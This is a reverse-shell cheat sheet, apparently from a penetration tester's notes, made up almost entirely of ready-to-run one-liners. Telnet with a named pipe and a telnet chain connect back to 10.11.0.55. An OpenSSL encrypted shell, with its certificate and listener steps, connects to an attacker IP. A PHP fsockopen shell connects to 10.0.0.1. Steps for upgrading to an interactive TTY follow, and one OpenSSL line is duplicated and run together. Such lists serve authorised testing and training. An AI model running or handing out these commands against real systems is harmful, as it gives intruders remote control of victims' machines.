 	# Using Telnet and a created node

	mknod /var/tmp/backpipe p; telnet 10.11.0.55 53 0</var/tmp/backpipe | /bin/bash 1>/var/tmp/backpipe

	# Using Telnet and Telnet

	telnet 10.11.0.55 53 | /bin/bash | telnet 10.11.0.55 54

OpenSSL Encrypted Reverse Shell

	# Generate certificate:
	
	openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
	
	# Listener: 
	
	openssl s_server -quiet -key key.pem -cert cert.pem -port <PORT>
	
	# Reverse Shell:
	
	mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect <ATTACKER-IP>:<PORT> > /tmp/s; rm /tmp/s mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect <ATTACKER-IP>:<PORT> > /tmp/s; rm /tmp/s

Upgrade Reverse Shell to Support tab completion/hot keys

	# In reverse shell
	python -c 'import pty; pty.spawn("/bin/bash")'
	Ctrl-Z

	# In Kali
	stty raw -echo
	fg

	# In reverse shell-optional
	reset
	export SHELL=bash
	export TERM=xterm-256color
	stty rows <num> columns <cols>

	
## PHP

	# PHP reverse shell
	php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
